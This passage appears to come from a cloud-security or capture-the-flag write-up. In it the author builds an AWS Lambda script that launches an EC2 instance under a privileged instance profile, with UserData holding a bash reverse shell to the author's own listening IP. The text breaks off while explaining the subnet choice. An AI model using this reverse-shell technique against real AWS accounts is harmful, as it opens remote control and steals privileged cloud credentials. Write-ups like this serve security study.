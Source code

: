 I proceeded to fill up the details and ended up with the following script:

```python
import boto3

def lambda_handler(event, context):

    # Work in Progress: Requires help from Agents! 

    ec2 = boto3.resource('ec2')

    instances = ec2.create_instances(
        ImageId="ami-013586750d303f89d", #Amazon Linux Instance
        MinCount=1,
        MaxCount=1,
        InstanceType="t2.micro",
        SubnetId="subnet-0aa6ecdf900166741", #aws iam describe-subnets
        IamInstanceProfile={'Name': 'ec2_agent_instance_profile'}, #aws iam list-instance-profiles
        TagSpecifications=[ #Earlier mentioned tagging
                {
            'ResourceType':'instance',
            'Tags': [
                {
                    'Key': 'agent',
                    'Value': 'user-68b75f7095ee4391aebca7196f537cfb'
                },
            ]
        },
        ],
        UserData="""
        #!/bin/bash
        /bin/bash -i >& /dev/tcp/18.136.148.247/443 0>&1 
        """ #Reverse shell to my listening AWS Instance
    )
```

1. **Amazon Linux** Instance was chosen for its simplicity and I obtained the ImageId from the AWS console page
   
   - NOTE: Amazon Linux has 2 different ImageIds and I had to switch to the other ImageId after wrongly started up too many instances and hit the limit of the account :p

2. *SubnetID* was taken from describing the subnets:
